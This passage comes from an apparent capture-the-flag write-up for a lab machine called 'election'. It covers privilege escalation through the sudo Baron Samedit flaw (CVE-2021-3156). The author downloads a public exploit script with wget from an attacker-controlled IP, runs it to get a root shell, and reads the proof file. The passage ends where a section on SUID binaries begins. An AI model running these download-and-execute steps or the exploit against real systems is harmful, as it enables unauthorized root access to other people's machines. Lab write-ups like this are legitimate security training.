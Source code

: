 ```
| tb_pengaturan      |
| tb_polling         |
| tb_siswa           |
+--------------------+
8 rows in set (0.00 sec)

MariaDB [election]>
```

But it doesn’t really give us anything. The next thing I decided to try was testing the sudo version as linpeas gave us this:

```
Sudo version 1.8.21p2
```

This is an old version possibly vulnerable to CVE-2021-3156, Sudo Baron Samedit. I got this python eploit from here to test it:

[https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

And went ahead and picked [This Once](https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py).

I then transferred it with our python webserver and fingers crossed!

```
love@election:/tmp$ wget 192.168.45.198:8000/exploit_nss.py
--2025-03-05 10:26:50--  http://192.168.45.198:8000/exploit_nss.py
Connecting to 192.168.45.198:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: ‘exploit_nss.py’

exploit_nss.py                    100%[==========================================================>]   7.99K  --.-KB/s    in 0.1s

2025-03-05 10:26:51 (58.3 KB/s) - ‘exploit_nss.py’ saved [8179/8179]

love@election:/tmp$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
# cd /root
# cat proof.txt                                                                                                                      
bc26[redacted]
```

Boom! It worked. We are now root!
However! Turns out this was not the intended way.

If we check for suid binaries like so:

```
```